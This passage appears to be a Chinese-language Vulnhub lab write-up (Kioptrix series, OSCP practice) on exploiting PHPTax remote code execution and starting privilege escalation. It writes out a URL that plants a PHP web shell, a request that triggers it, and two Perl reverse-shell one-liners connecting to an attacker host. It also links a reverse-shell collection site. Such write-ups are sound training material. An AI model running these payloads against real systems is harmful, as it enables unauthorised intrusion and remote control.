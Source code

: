 使用`searchsploit`搜索，发现除了使用`msf`外，有两种形式，远程代码执行倒是符合现在所需要的

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-5\16.jpg)

查看第二个文件`25849.txt`，整体是一个`php`脚本，更改名称后可用，并且其中是有用法的，若是采用这种方式，需要修改脚本中的`user-agent`

这里我采用脚本中的关键代码进行测试

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-5\17.jpg)

```shell
http://192.168.10.10:8080/phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E
```

在浏览器的`url`中构造即可，然后后面再通过访问前面构造的文件，即可触发

```shell
http://192.168.10.10:8080/phptax/data/rce.php?cmd=id
```

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-5\18.jpg)

这时候就可以构造反弹`shell`的代码测试

```shell
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.10.6:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

在尝试众多的反弹shell后，这个语句成功获取

推荐一个网站吧，这里反弹shell挺多的`https://forum.ywhack.com/reverse-shell/`

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-5\19.jpg)

# 提权

进入后，发现并不能切换目录，并且大部分都是无法使用，可能获取的shell，并没有`sh`的原因，不过可以直接使用命令`sh`，这样就可以切换目录等操作，不过即使这样也是无用

或者另开一个`nc`监听，构造`perl`有`sh`的情况，经测试，靶机只有`sh`

```shell
perl -e 'use Socket;$i="192.168.10.6";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-5\19-1.jpg)

这里反弹成功后，对于`sh`有个提示，说是无权`tty`，以及任务控制关闭

使用`find`寻找到具有SUID权限的文件后，经过测试也是无法使用的，可参考网站`https://gtfobins.github.io`

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-5\19-2.jpg)


